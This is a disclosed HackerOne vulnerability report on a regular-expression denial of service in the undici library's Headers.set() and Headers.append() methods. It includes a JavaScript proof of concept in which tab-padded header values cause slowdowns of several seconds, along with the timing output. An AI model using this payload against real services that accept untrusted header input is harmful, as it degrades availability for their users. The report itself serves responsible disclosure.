 # Regular Expression Denial of Service in Headers

## Report Details
- **Report ID**: 1784449
- **URL**: https://hackerone.com/reports/1784449
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-11-25T22:30:39.850Z
- **Disclosed**: 2023-03-19T17:11:28.970Z

## Reporter
- **Username**: sno2
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** ReDoS vulnerabilities in Headers class.

**Description:** The `Headers.set()` and `Headers.append()` methods are vulnerable to Regular Expression Denial of Service (ReDoS) attacks when untrusted values are passed into the functions.  This is due to the inefficient regular expression used to normalize the values in the `headerValueNormalize()` utility function.

## Steps To Reproduce:

  1. Install undici (npm install undici@5.13)
  2. Run the following program:
```js
const { Headers } = require("undici");

const headers = new Headers();
const attack = "a" + "\t".repeat(50_000) + "\ta";
const start = performance.now();
headers.append("foo", attack);
console.log(`${performance.now() - start}ms`);
```

## Impact: The code takes almost 3 seconds to run because of the inefficient regular expression used in `Headers.append()`

## Supporting Material/References:
  * Cause of vulnerability: https://github.com/nodejs/undici/blob/main/lib/fetch/headers.js#L18-L30
  * Both the `Headers.set()` and `Headers.append()` functions are affected.
```js
const { Headers } = require("undici");

console.log("Headers.set()");
for (let i = 0; i <= 5; i++) {
  const headers = new Headers();
  const attack = "a" + "\t".repeat(i * 10_000) + "\ta";
  const start = performance.now();
  headers.set("foo", attack);
  console.log(`${attack.length}: ${performance.now() - start}ms`);
}

console.log("\nHeaders.append()");
for (let i = 0; i <= 5; i++) {
  const headers = new Headers();
  const attack = "a" + "\t".repeat(i * 10_000) + "\ta";
  const start = performance.now();
  headers.append("foo", attack);
  console.log(`${attack.length}: ${performance.now() - start}ms`);
}
```

```txt
Headers.set()
3: 0.4767999998293817ms
10003: 108.30930000031367ms
20003: 417.9063999997452ms
30003: 949.7406999999657ms
40003: 1662.9593000002205ms
50003: 2645.8285000002943ms

Headers.append()
3: 0.27730000019073486ms
10003: 111.98060000035912ms
20003: 430.24649999989197ms
30003: 996.5332000004128ms
40003: 1706.5194999999367ms
50003: 2932.2003999999724ms
```

## Impact

An attacker can immobilize an unsuspecting user of this package for a few seconds if untrusted input is passed into the unsafe `Headers` methods.

## Attachments
No attachments
